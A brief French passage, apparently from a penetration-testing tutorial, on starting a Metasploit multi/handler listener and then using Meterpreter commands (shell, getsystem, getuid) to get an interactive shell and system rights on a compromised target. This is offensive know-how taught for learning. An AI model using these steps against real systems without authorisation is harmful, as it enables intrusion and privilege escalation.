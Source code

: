 On lance maintenant le listener : 
```sh
run
```

Maintenant, nous n'avons plus qu'à lancer l'attaque vers la machine cible, et le multi/handler va récupérer la session !

Une fois dans la session, on peut utiliser les commandes Meterpreter pour intergir avec la session. Parmi elle : 
```sh
shell # Pour obtenir un shell interactif
getsystem # Pour obtenir les droits système si une faille connue le permet
getuid # Pour obtenir l'UID de l'utilisateur courant
```

Pour aller plus loin : https://docs.metasploit.com 
